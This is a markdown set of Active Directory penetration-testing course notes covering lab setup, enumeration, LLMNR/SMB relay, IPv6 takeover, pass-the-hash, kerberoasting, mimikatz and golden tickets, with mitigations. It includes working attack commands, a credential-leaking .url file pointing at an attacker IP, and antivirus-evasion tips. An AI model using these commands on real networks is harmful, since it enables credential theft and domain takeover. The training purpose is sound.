

# Active Directory Overview and Lab Set Up

### AD Overview

Internal Penetration testing

**What is Active Directory?**

- Directory service developed by Microsoft to manage Windows domain networks
- Stores information related to objects, such as Computers, Users, Printers, etc. Think of it as a phone book 
for Windows
- Authenticates using Kerberos tickets. Non-Windows devices, such as linux machines, firewalls, etc. can also 
authenticate to AD via RADIUS or LDAP

**Why Active Directory?**

- Active Directory is the most commonly used identity management service in the world. 95% of Fortune 1000 
companies implement the service in their networks
- Can be exploited without ever attacking patchable exploits. Instead, we abuse features, trusts, components, 
and more

### Physical Active Directory Components

Active Directory Components

AD is composed of both physical and logical components

|Physical|
|---------|
|Data store|
|DCs|
|Global catalog server|
|Read-Only DC (RODC)|

Domain Controllers


AD DS Data Store


### Logical Active Directory Components

|Logical|
|-------|
|Partitions|
|Schema|
|Domains|
|Domain trees|
|Forests|
|Sites|
|Organisational units (OUs)|





### Active Directory Lab Build

1 x Windows Server 2022
2 x Windows 10 Workstations

Cloud based Lab in Azure https://kamran-bilgrami.medium.com/ethical-hacking-lessons-building-free-active-directory-lab-in-azure-6c67a7eddd7f

### Necessary ISOs

Enter dummy data when asked. Real email, phone, etc. not needed

[Microsoft Evaluation Center](https://www.microsoft.com/en-us/evalcenter)

[Windows Server 2022](https://info.microsoft.com/ww-landing-windows-server-2022.html)
[Windows 10 Enterprise](https://www.microsoft.com/en-us/evalcenter/download-windows-10-enterprise)

### Setting Up the Domain Controller

Remove floppy from hardware after VM creation, increase memory to 4-8Gb

Windows Server 2022 Evaluation Standard (Desktop experience), custom installation.
At drive creation add New and apply then install

Install VMWare tools and rename the DC, then reboot

**Promote the server to Domain Controller**

Select Manage -> Add Roles and Features

**Add Roles and Features Wizard**

Before You Begin: Default
Installation type: Role based or Feature based
Server Selection: Default
Server Roles: Active Directory Domain Services
Features: Default
AD DS: Default
Confirmation: Check restart if required
Results: When finished, click "Promote this server to a domain controller"

**Deployment Configuration Wizard**

Deployment Configuration: Select "Add a new forest" and enter the Root domain name (domain_name.local)
Domain Controller Options: Set the Directory Services Restore Mode (DSRM) password (same as Admin password)
DNS Options: Default
Additional Options: Default after the NetBIOS domain name loads
Paths: Default
Review Options: Default
Prerequisites Check: Install

Server will reboot after installation

**Add Active Directory Certificate Services**

Allows us to use LDAPS instead of LDAP

Select Manage -> Add Roles and Features 

**Add Roles and Features Wizard**

Before You Begin: Default
Installation type: Role based or Feature based
Server Selection: Default
Server Roles: Active Directory Certificate Services
Features: Default
AD CS: Check Certification Authority is checked, then Default
Confirmation: Check restart if required
Results: Configure Active Directory Certificate Services

**AD CS Configuration**

Credentials: Default
Role Services: Check Certification Authority, then Default
Setup Type: Default
CA Type: Default
Private Key: New private key
Cryptography: Default
CA Name: Default
Validity Period: Increase to 99 years, then Default
Certificate Database: Default
Confirmation: Configure

Reboot the Server

### Setting Up the User Machines

Windows 10 Enterprise

Remove floppy after VM creation, increase memory to 4-8Gb
Custom installation, at drive creation add New and apply then install.

Install OS then change PC name and reboot

### Setting Up Users, Groups, and Policies

Create a new "Groups" OU and move built in groups into it
Create 2 Administrator copies, one normal Admin and a service account (with the password in the description)
Create 2 low level users

Create an SMB share, navigate to the File and Storage Services tab -> Shares -> Tasks -> New Share

**New Share Wizard**

Select Profile: SMB Share Quick
Share Location: Default
Share Name: Name the share
Other Settings: Default
Permissions: Default
Confirmation: Create

Open cmd as Administrator and run the following command to set up the SQL service for kerberoasting:

`setspn -a HYDRA-DC/svc_sql.MARVEL.local:60111 MARVEL\svc_sql`

Check that the SQL service SPN is set up:

`setspn -T MARVEL.local -Q */*`

**Set Up GPO To Disable Windows Defender**

Open Group Policy Management tool -> Right-click on Domain -> Select "Create a GPO in this domain.."

Name the policy Disable Windows Defender -> Right-click and Edit 

Computer Configuration -> Policies -> Administrative Templates -> Microsoft/Windows Defender Antivirus

Select "Turn off Microsoft/Windows Defender Antivirus" and enable it then apply

Right-click the "Disable Windows Defender" GPO and select Enforced

**Set Static IP**

Check current IP with `ipconfig`, Open Network and Internet settings -> Change Adapter Options

Double-click Ethernet0 -> Properties -> Internet Protocol Version 4 (TCP/IPv4) -> Properties

Select Use the following IP address and change the values to match the result of `ipconfig`

This will remove internet access

Shut down DC

### Joining Our Machines to the Dommain

Access School or Work -> Connect to Local Domain -> Authenticate as Administrator to MARVEL.local domain

Log in to THEPUNISHER and SPIDERMAN as Marvel\Administrator

**THEPUNISHER (Mis)Configuration**

Open Local Users and Groups manager (lusrmgr)
Enable local Administrator account by setting a password and unchecking the disable option
Add MARVEL\fcastle to the local Administrators Group

Turn on Network discovery to access file shares on the domain

**SPIDERMAN (Mis)Configuration**

Open Local Users and Groups manager (lusrmgr)
Enable local Administrator account by setting a password (same as local Administrator account on 
THEPUNISHER) and unchecking the disable option
Add MARVEL\pparker and MARVEL\fcastle to the local Administrators Group

Turn on Network discovery to access file shares on the domain

Log in to SPIDERMAN as local account peterparker (`.\peterparker`)

Navigate to This PC -> Computer tab -> Map network drive
Map to `\\HYDRA-DC\hackme` with reconnect at sign in and use different credentials checked
Authenticate to the share with Domain Administrator account with remember me checked

# Active Directory Post-Compromise Enumeration

### Introduction

Tools for quick, efficient enumeration:

- Bloodhound
- Plumhound
- Ldapdomaindump
- PingCastle

### Domain Enumeration with ldapdomaindump

Once we have credentials we can use ldapdomaindump to dump a lot of very useful information

`sudo ldapdomaindump -u 'DOMAIN\user' -p password -o dir`

- Domain Computers (look for older architecture/OS)
- Domain Users by group to find high value targets
- Domain User descriptions for potential information disclosure (passwords)
- Domain Trusts and Policies

### Domain Enumeration with Bloodhound

Update bloodhound to latest version with `pip3 install bloodhound`
Start neo4j `sudo neo4j console` and login with default creds neo4j:neo4j
Start bloodhound and login with neo4j creds `bloodhound`
Run the ingestor with `bloodhound-python -d DOMAIN.local -u user -p password -ns <DC-IP> -c all` to collect 
json files containing the Domain graph data
- `-d` The Domain name
- `-ns` Name server, the DC
- `-c` Data collection 

Use the Upload Graph button to upload the json files

In the Analysis tab there are pre-built queries to find Domain Admins, dangerous privileges, shortest paths 
to various objectives, kerberoastable targets, and many more

Each node has a huge amount of information, and can be right-clicked to set as a starting point, set as an 
ending point, set as owned, marked as high value, and more

### Domain Enumeration with Plumhound

Clone the PlumHound repo from github https://github.com/PlumHound/PlumHound
Move the repo to /opt
Install the using the requirements.txt `pip3 install -r requirements.txt`

With neo4j and BloodHound running, run PlumHound.py with --easy to check the domain data is available

`python3 PlumHound.py --easy -p neo4jpassword`

Then run a task with the `-x` option

`python3 PlumHound.py -x tasks/default.tasks -p neo4jpassword`

The full report and files will be in the PlumHound/reports folder

Open index.html in a browser to view all the available report files

### Domain Enumeration with PingCastle

https://www.pingcastle.com/

Run on a machine on the domain or remotely

# Active Directory: Initial Attack Vectors

### Introduction

Scenario:

Performing a pentest for a client. We send a laptop to the client with a VPN allowing remote access to the 
client's network through the tunnel.

### LLMNR Poisoning Overview

What is Link-Local Multicast Name Resoution (LLMNR)?

- Used to identitfy hosts when DNS fails to do so
- Previously NBT-NS
- Key flaw is that the services utilize a user's username and NTLMv2 hash when appropriately responded to
- Enabled by default

A MiTM attack

### Capturing Hashes with Responder

Step 1: Run responder

`sudo responder -I tun0 -dwP`

Step 2: Wait for an event to occur

Step 3: Responder dumps the hashes

Step 4: Crack the hashes with hashcat

`hashcat -m 5600 hashes.txt rockyou.txt`

### Cracking Our Captured Hashes

Find the hash module in hashcat `hashcat --help | grep NTLM` or [on the website](https://hashcat.net/wiki/doku.php?id=example_hashes)

Crack the hashes with hashcat `hashcat -m 5600 hashes.txt /usr/share/wordlist/rockyou.txt -O -r RuleName`

Better wordlists:

- rockyou2021 ~ 90Gb

Rules to use:

- OneRule

Use password lists relative to the area the target is operating in, e.g sports team names in different areas 
etc.

### LLMNR Poisoning Mitigation

The best defense is to disable LLMNR and NBT-NS through a GPO:

**Disable LLMNR**

Open Group Policy Management tool, select or create a GPO and Edit

Computer Configuration -> Policies -> Administrative Templates -> DNS Client -> Turn off multicast name 
resolution

**Disable NBT-NS**

Open network Connections -> Network Adapter Properties -> TCP/IPv4 Properties -> Advanced tab -> WINS tab ->
Disable NetBIOS over TCP/IP

If a company must use or cannot disable LLMNR/NBT-NS, the best course of action is to:

- Require Network Access Control (restrict devices on the network, e.g through MAC address)
- Require strong user passwords (e.g. > 14 chars in length and limit common word use)

### SMB Relay Attacks Overview

**What is SMB Relay?**

Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines
and potentially gain access

Requirements:

- SMB signing must be disabled or not enforced on the target
- Relayed user credentials must be an admin on the machine for any real value

Identify hosts without SMB signing:

`nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24`

**SMB Relay**

Step 1: Turn SMB and HTTP off in /etc/responder/Responder.conf
Step 2: Run Responder `sudo responder -i tun0 -dwP`
Step 3: Run ntlmrelayx `sudo impacket-ntlmrelayx/ntlmrelay.py -tf targets.txt -smb2support`
Step 4: Wait for an event to occur
Step 5: Responder dumps the hashes from the SAM of the target

Alternatives options to use with ntlmrelayx:

- the `-i` option to start an interactive shell on the target
- the `-c` option to execute a command on the target

### SMB Relay Attacks Lab

Scan our targets with an nmap script to determine whether SMB signing is enabled and enforced

`nmap --script=smb2-security-mode.nse -p445 -Pn 10.10.10.2`

To sweep a network use grep to filter for the vulnerable machines

`nmap --script=smb2-security-mode.nse -p445 -Pn 10.10.10.0/24 | grep not`

Run responder with HTTP and SMB off in /etc/responder/Responder.conf

`sudo responder -I eth0 -dwPv`

Start ntlmrelayx to capture hashes, start an interactive session `-i`, or run a command `-c cmd` using a
targets file

`impacket-ntlmrelayx -tf targets.txt -smb2support`

On one of the targets navigate to the attacking machine's IP to trigger the relay

### SMB Relay Attack Defenses

**Mitigation Strategies:**

Enable SMB signing on all devices
- Pro: Completely stops the attack
- Con: Can cause performance issues with file copies (10-20% decrease in performance, [info here](https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/reduced-performance-after-smb-encryption-signing))

Disable NTLM authentication on network:
- Pro: Completely stops the attack
- Con: If Kerberos stops working, Windows defaults back to NTLM

*The following are best practice and should be done regardless*

Account Tiering:
- Pro: Limits Domain Admins to specific tasks (e.g. only log on to servers with need for DA)
- Con: Enforcing the policy may be difficult

Local admin restriction (e.g. [LAPS](https://learn.microsoft.com/en-us/windows-server/identity/laps/laps-overview)):
- Pro: Can prevent a lot of lateral movement
- Con: Potential increase in the amount of service desk tickets

### Gaining Shell Access

Using Metasploit, with a password

```
msf6 > use exploit/windows/smb/psexec
msf6 > set SMBDomain domain.local
msf6 > set SMBPass password
msf6 > set SMBUser user
```

Using Metasploit, with a hash

Uses a local user, like adminstrator, so we don't set the domain option (use `unset varname` or set as `.`)

```
msf6 > use exploit/windows/smb/psexec
msf6 > set SMBPass LM:NT
msf6 > set SMBUser user
```

Using psexec, with a password

`impacket-psexec domain.local/user:'password'@10.10.10.2`

Using psexec, with a hash

`impacket-psexec administrator@10.10.10.2 -hashes LM:NT`

*If psexec gets blocked by an AV or for other reasons, try `wmiexec` and `smbexec`*

### IPv6 Attacks Overview

Most networks use IPv4 meaning there are usually no systems resolving DNS for IPv6

We can setup our attacking machine as an IPv6 DNS resolver to relay NTLM credentials into LDAP using mitm6, 
ntlmrelayx and ldaps

### IPv6 DNS Takeover via mitm6

**Need to use impacket v0.9.19 on python2.7 for this to work!**

Start ntlmrelayx using the DCs IP address

`impacket-ntlmrelayx -6 -t ldaps://10.10.10.1 -wh fakewpad.domain.local -l lootme`

Then run mitm6 (Don't leave running and walk away! Can break things in the network so use for 10-15 mins)

`sudo mitm6 -d domain.local -i eth0`

When an event occurs (machine reboot, network log in, access resources with credentials) mitm6 will dump 
domain information into the directory specified with the `-l` option

This includes Domain users, groups, computers, users by group (look at lastLogon and descriptions!) and more

Allows us to find our high value targets and next steps for our attack, also can add user to compromise the 
domain if a DA logs into the network

### IPv6 Attack Defenses

**Mitigation Strategies:**

IPv6 poisoning abuses the fact that Windows queries for an IPv6 address even in IPv4-only environments.
If you do not use IPv6 internally, the safest way to prevent mitm6 is to block DHCPv6 traffic and incoming
routeradvertisements in Windows Firewall via Group Policy. Disabling IPv6 entirely may have unwanted 
side effects. Setting the following predefined rules to Block instead of Allow prevents the attack from 
working:
- (Inbound) Core Networking - Dynamic Host Configuration Protocol for IPv6 (DHCPv6-IN)
- (Inbound) Core Networking - Router Advertisement (ICMPv6-In)
- (Outbound) Core Networking - Dynamic Host Configuration Protocol for IPv6 (DHCPv6-Out)

If WPAD is not in use internally, disable it via Group Policy and by disabling the WinHttpAutoProxySvc 
service

Relaying to LDAP and LDAPS can only be mitigated by enabling both LDAP signing and LDAP channel binding

*Adding admins to Protected Users is best practice*

Consider adding Administrative users to the Protected User group or marking them as "Account is sensitive
and cannot be delegated", which will prevent any impersonation of that user via delegation

### Passback Atacks

Abusing accessible printer/IoT configuration panels to send credentials via LDAP or SMTP

https://www.mindpointgroup.com/blog/how-to-hack-through-a-pass-back-attack/

### Initial Internal Attack Strategy

1. Begin day with mitm6 or Responder
2. Run scans to generate traffic (Nessus, nmap)
3. If scans are taking too long, look for websites in scope (http_version)
4. Look for default credentials on web logins; Printers, Jenkins, etc
5. Think outside the box

If initial attack doesn't get credentials, ask the client for credentials to further test the network

Enumerate!

# Active Directory Post-Compromise Attacks

### Introduction

What happens after we have an account?

Moving vertically and laterally

### Pass Attacks Overview

**Pass the Password/Pass the Hash**

If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks

**Pass the Password**

`crackmapexec smb 10.0.0.0/24 -u user -d domain -p password`

Grab hashes with Metasploit's `hashdump` or with Impacket's secretsdump if we have access to an Admin account

`impacket-secretsdump domain/user:password@10.0.0.1`

**Pass the Hash**

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth`

We can use CME to dump valuable data

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth --sam`

Enumerate shares

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth --shares`

Dump the Local Security Authority (LSA)

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth --lsa`

CME also has built-in modules, list them with `crackmapexec smb -L`

lsassy allows us to dump the [Local Security Authority Subsystem Service (LSASS)](https://www.microsoft.com/en-us/security/blog/2022/10/05/detecting-and-preventing-lsass-credential-dumping-attacks/)

Allows us to access credentials that may not be dumped with secretsdump 

`crackmapexec smb 10.0.0.0/24 -user -H hash --local-auth -M lsassy`

There's also a database for CME called the `cmedb`

### Pass Attacks Lab

Example attack

Run a pass the password attack with the credentials recovered from our initial attacks then use the access 
found with CME to start dumping data

`crackmapexec smb 10.0.0.0/24 -u user -d domain -p password`

Pass the hash attacks *only work with NTLMv1*

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth`

Run CME to dump the SAM hashes when we pwn some machines, the hashes will be added to the cmedb

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth --sam`

Enumerate the shares

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth --shares`

Dump the LSA, will also be dumped by secretsdump

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth --lsa`

mscache hashes (DCC2) will be dumped and can be cracked so look for Domain Administrator account names

`hashcat -m 2100 -O hash.txt rockyou.txt`

If the password has a date try incrementing it, if it has multiple symbols e.g. !!!, try adding an additional 
symbol

Use CME modules to see what else the credentials can do (GPP password, impersonate, keepass file discovery, 
etc.)

`crackmapexec smb -L`

Run lsassy to dump any secrets stored in memory (NTLM hashes of logged in users)

`crackmapexec smb 10.0.0.0/24 -u administrator -H admin-hash --local-auth -M lsassy`

Use the CME DB to view hosts, credentials, shares, etc. that were found while using CME

### Dumping and Cracking Hashes

Run secretsdump on a target you have credentials for

`secretsdump.py DOMAIN.com/user:password@10.0.0.1`

Grab SAM hashes for the users, DCC2 hashes, cleartext passwords, wdigest (older protocol, enabled by default 
on older systems)

Look for old systems as we may find cleartext Domain Admin passwords

wdigest can be force enabled, then wait for a user to log in to grab cleartext password of the user

Write a bash one-liner to dump the cmedb hosts and then use the found credentials to run secretsdump against 
all the hosts

Hashes can also be used

`secretsdump.py administrator:@10.0.0.1 -hashes hash`

Crack the hashes with the NT part -> LM:NT

`hashcat -m 1000 hash.txt rockyou.txt`

Example lateral movement with credentials:

Initial compromise of hash/credentials -> crack hash/use hash to secretsdump -> spray network with password 
-> find logins -> use secretsdump -> local admin hashes -> respray the network with local admin accounts

### Pass Attack Mitigations

Hard to completely prevent, but we can make it more difficult for an attacker

Limit account re-use:

- Avoid re-using local admin passwords
- Disable Guest and Administrator accounts
- Limit who is a local admin (least privilege)

Utilize strong passwords:

- The longer the better (>14 chars)
- Avoid using common words
- Long sentences can be good

Privilege Access Management (PAM):

- Check out/in sensitive accounts when needed
- Automatically rotate passwords on check out and check in
- Limits pass attacks as hash/password is strong and constantly rotated

### Kerberoasting Overview


1. Get SPNs, dump hash
`python GetUserSPNs.py DOMAIN/username:password -dc-ip 10.0.0.1 -request`

2. Crack the hash
`hashcat -m 13100 kerberoast.txt rockyou.txt`

### Kerberoasting Mitigation

Mitigation Strategies:

- Strong passwords
- Least privilege

### Token Impersonation Overview

**Token Impersonation**

What are tokens?

- Temporary keys that allow you access to a system/network without having to provide credentials each time 
you access a file. Think of cookies

Two Types:

- Delegate - Created for logging into a machine or using Remote Desktop
- Impersonate - "non-interactive" such as attaching a network drive or a domain logon script

### Token Impersonation Walkthrough

Start msfconsole and load psexec with an x64 meterpreter payload then run the exploit

Use `load` to load incognito in the meterpreter shell and check available commands with `help`

`load incognito`

Use `list_tokens` to show available tokens, with -g for groups and -u for users
Use `impersonate_token domain\\user` to impersonate a user and `rev2self` to drop the impersonation

If we find a domain admin token available for impersonation we can use that to add a user to the Domain Admin
group

`net user /add username password /domain` 
`net group "Domain Admins" username /ADD /DOMAIN`

### Token Impersonation Mitigation

Mitigation Strategies:

- Limit user/group token creation permission
- Account tiering
- Local admin restriction

### URL File Attacks

Create a malicious Shortcut file, replacing `10.10.10.10` with the attacker IP. Save the file as 
"@filename.url" or "~filename.url" and place it in a network share.

Run responder with HTTP and SMB turned on in Responder.conf, then wait until someone navigates to the share 
and the hashes should be dumped to responder

```
[InternetShortcut]
URL=whatever
WorkingDirectory=whatever
IconFile=\\10.10.10.10\%USERNAME%.icon
IconIndex=1
```

### GPP/cPassword Attacks and Mitigations

Overview:

- Group Policy Preferences (GPP) allowed admins to create policies using embedded credentials
- These credentials wee encrypted and placed in a "cPassword"
- The key was accidentally released
- Patched in MS14-025, but it doesn't prevent previous uses
- Still relevant on Pentests despite age (nearly 10 years old!)

`gpp-decrypt` on kali

Metasploit module smb_enum_gpp for enumeration, requires valid credentials

Mititgation Strategies:

- Patch! Fixed in KB2962486
- Delete the old GPP xml files stored in SYSVOL

### Mimikatz Overview

Overview:

- Tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks
- Dump credentials stored in memory
- Just a few attacks: Credential dumping, Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Silver Ticket, 
and Golden Ticket

### Credential Dumping with mimikatz

Upload mimidrv.sys, mimispool.dll, mimilib.dll, mimikatz.exe from a github.com/gentilkiwi/mimikatz release

*Nuke defender first, otherwise will be picked up and quarantined*

Run mimikatz as admin and execute `privilege::debug`

List options by executing `command::` e.g. `privilege::`

`sekurlsa::logonPasswords` will show connection passwords in plain text, e.g credentials used to mount 
network drives

### Post-Compromise Attack Strategy

We have an account, now what?

Search for the quick wins:

- Kerberoasting
- Secretsdump
- Pass the hash/Pass the password

No quick wins? Dig deep!

- Enumerate (Bloodhound, etc.)
- Where does your account have access?
- Old vulnerabilities die hard

Think outside the box

Additional tools:

- certipy for certificate attacks

# We've Compromised the Domain - Now What?

### Post-Domain Compromise Attack Strategy

We own the domain, now what?

**Provide as much value to the client as possible:**

- Put your blinders on and do it again
- Dump the NTDS.dit
- Enumerate shares for sensitive information

**Persistence can be important:**

- What happens if our DA access is lost?
- Creating a DA account can be useful (Do not forget to delete it!), should be detected!
- Creating a Golden Ticket can be useful

### Dumping the NTDS.dit

What is the NTDS.dit?

A database used to store AD data, including:

- User information
- Group information
- Security descriptors
- Password hashes

Use `secretsdump` against the DC with a known DA account

`impacket-secretsdump domain/user:password@10.10.10.1 -just-dc-ntlm`

Extract the NT from the hashes (`username:id:NT:LM:::`) for cracking with `-m 1000` in hashcat

Use excel or bash to split the hashes and pair the usernames with the cracked values for reference/reporting

### Golden Ticket Attacks Overview

What is it?

- When we compromise the krbtgt account, we own the domain
- We can request access to any resource or system on the domain
- Golden Tickets grant complete access to every machine

We can use mimikatz to obtain the information to perform the attack

We need:

- The krbtgt NTLM hash
- The domain SID

### Golden Ticket Attacks

As DA on the DC, run mimikatz and set debug privileges

Then dump the krbtgt hash

`lsadump::lsa /inject /name:krbtgt`

`kerberos::golden /User:Administrator /domain:MARVEL.local /sid:SID /krbtgt:NTLM-HASH /id:500 /ptt`

`/id` is the relative identifier (RID) of the admin account

The ticket will now be available for the current session

Run `misc::cmd` to run a shell with the Golden Ticket giving us full access to the domain

With PsExec64.exe, a legitimate Windows admin tool, we can gain remote shells on any machine on the domain,
potentially without triggering any alerts or looking suspicious

Most organizations will pick up on DAs being added whereas Golden Tickets may go undetected

To be even stealthier use a Silver Ticket instead


# Additional Active Directory Attacks

### Recent Vulnerabilities

Overview:

- Active Directory vulnerabilities occur all the time
- Recent major vulnerabilities include:
	- ZeroLogon
	- PrintNightmare
	- Sam the Admin
- It's worth checking for these vulnerabilities, but you should not attempt to exploit them unless your 
client approves

These vulnerabilities usually have checkers that can be run to determine if a target is vulnerable

### Abusing ZeroLogon

CVE-2020-1472

Very dangerous!

High level, we're setting the DC authentication to NULL so we can authenticate with no password

Run a checker script unless you have prior approval, this can destroy the domain

Resources:

What is ZeroLogon? - https://www.trendmicro.com/en_us/what-is/zerologon.html

dirkjanm CVE-2020-1472 - https://github.com/dirkjanm/CVE-2020-1472

SecuraBV ZeroLogon Checker - https://github.com/SecuraBV/CVE-2020-1472

### PrintNightmare

CVE-2021-1675

Post-compromise attack, a user account is required (doesn't have to be an admin)

Abuses printerspooler

Obfuscate the dll to bypass AVs

Resources:

cube0x0 RCE - https://github.com/cube0x0/CVE-2021-1675

calebstewart LPE - https://github.com/calebstewart/CVE-2021-1675

# Active Directory Case Studies

### AD Case Study 1

Takeaways:

- Weak passwords
- Password reuse
- SMB signing disabled
- No account tiering
- Basics were lacking allowing compromise despite expensive security solutions

Blog post - https://tcm-sec.com/pentest-tales-001-you-spent-how-much-on-security/

### AD Case Study 2

Takeaways:

- Default credential use
- Cleartext passwords
- WDigest enabled (by default on Win 7 & 8, Win Server 2008 R2, and Win Server 2012)
- DA service accounts
- Password reuse

Blog post - https://tcm-sec.com/pentest-tales-002-digging-deep

### AD Case Study 3

Takeaways:

- Misconfiguration of user account allowing SMB share access
- Cleartext admin password in document on share
- Cleartext DA password found in secretsdump on machine using credentials from share
- Think outside the box, don't give up after common attacks fail!
